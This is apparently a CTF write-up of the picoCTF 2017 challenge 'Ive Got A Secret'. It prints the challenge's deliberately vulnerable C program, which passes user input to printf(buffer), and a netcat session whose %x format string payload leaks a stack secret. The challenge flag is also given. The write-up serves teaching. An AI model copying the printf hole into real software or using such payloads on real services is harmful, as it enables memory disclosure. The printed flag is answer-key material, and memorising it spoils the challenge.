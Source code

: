 <!-- This markdown file is writeup template. -->

## Ive Got A Secret 75pt

### Problem
> Hopefully you can find the right format for my [secret](https://webshell2017.picoctf.com/static/c124d2912061647aa59424b49206e93b/secret)! [Source](https://webshell2017.picoctf.com/static/c124d2912061647aa59424b49206e93b/secret.c). Connect on shell2017.picoctf.com:58570.

### Answer
Let's check the Hint.

> This is a beginning format string attack.

Looking at source code, we found that a user input string is directly printed using printf.

```c:secret.c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>

#define BUF_LEN 64
char buffer[BUF_LEN];

int main(int argc, char** argv) {
    int fd = open("/dev/urandom", O_RDONLY);
    if(fd == -1){
        puts("Open error on /dev/urandom. Contact an admin\n");
        return -1;
    }
    int secret;
    if(read(fd, &secret, sizeof(int)) != sizeof(int)){
        puts("Read error. Contact admin!\n");
        return -1;
    }
    close(fd);
    printf("Give me something to say!\n");
    fflush(stdout);
    fgets(buffer, BUF_LEN, stdin);
    printf(buffer);

    int not_secret;
    printf("Now tell my secret in hex! Secret: ");
    fflush(stdout);
    scanf("%x", &not_secret);
    if(secret == not_secret){
        puts("Wow, you got it!");
        system("cat ./flag.txt");   
    }else{
        puts("As my friend says,\"You get nothing! You lose! Good day, Sir!\"");
    }

    return 0;
}
```

In this case it turns out that the value for secret is the sixth element on the stack during the call to printf. 

```bash
$ nc shell2017.picoctf.com 58570
Give me something to say!
%x %x %x %x %x %x %x %x %x %x
40 f7fc7c20 8048792 1 ffffdd34 662be5c8 3 f7fc73c4 ffffdca0 0
Now tell my secret in hex! Secret: 0x662be5c8
326edd4743c7046d72d29e911ae8a412
Wow, you got it!
```

### Flag
326edd4743c7046d72d29e911ae8a412
